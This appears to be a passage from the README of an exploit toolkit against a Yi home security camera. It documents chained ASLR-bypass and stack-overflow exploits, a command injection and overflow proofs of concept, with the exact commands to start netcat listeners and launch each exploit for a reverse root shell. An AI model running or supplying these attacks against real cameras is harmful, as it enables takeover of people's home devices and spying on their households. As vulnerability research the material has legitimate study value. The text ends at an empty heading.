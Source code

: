 ```
python3 yihaw.py sonic_bug_2_hook_gen 
```

## `set_ap_mode_exploit`

This chains together a remote OOB-read to bypass ASLR, and a stack overflow in `USER_IPCAM_SET_AP_MODE_REQ`, to get a reverse root shell on the camera.

- Terminal 1: `sudo nc -l 123`
- Terminal 2: `python3 yihaw.py set_ap_mode_exploit *YOUR IP* 123`

## `device_param_exploit`

This uses a global overflow in the handling of the device param string to cause a stack overflow when this string is consequently fetched. Chained with the OOB-read to bypass ASLR, these bugs are used to get a reverse root shell.

- Terminal 1: `sudo nc -l 123`
- Terminal 2: `python3 yihaw.py device_param_exploit *YOUR IP* 123`

## `msg_notice_to_ex_cmd_injection`

This exploits a command injection in a `MSG_NOTICE_TO` callback function, however this is difficult to exploit as you need the device key (stored in `/etc/jffs2/yi.conf`) - this can be fetched with FTP, but there are easier exploits above. 

- Terminal 1: `sudo nc -l 123`
- Terminal 2: `python3 yihaw.py msg_notice_to_ex_cmd_injection *YOUR IP* 123 *DEVICE KEY*`

## `set_wifi_info_exploit`

This exploits a stack overflow in the `IOTYPE_USER_IPCAM_SET_WIFI_INFO` handler, however a reverse shell isn't possible as the hotspot is disabled before the bug is hit - therefore this just executes a provided command. In this case, it just runs `/usr/bin/testptz` which runs the camera through its movement test (it then crashes, and does the same thing again when booting).

```
python3 yihaw.py set_wifi_info_exploit
```

## `set_device_param_global_poc`

This is a PoC for a global overflow when setting the device param string, I didn't exploit this one, but there is definitely some interesting stuff next to it in memory. 

*WARNING:* Make sure you change the device parameter back to the default after using this.

```
python3 yihaw.py set_device_param_global_poc
```

## `event_db_overflow_poc`

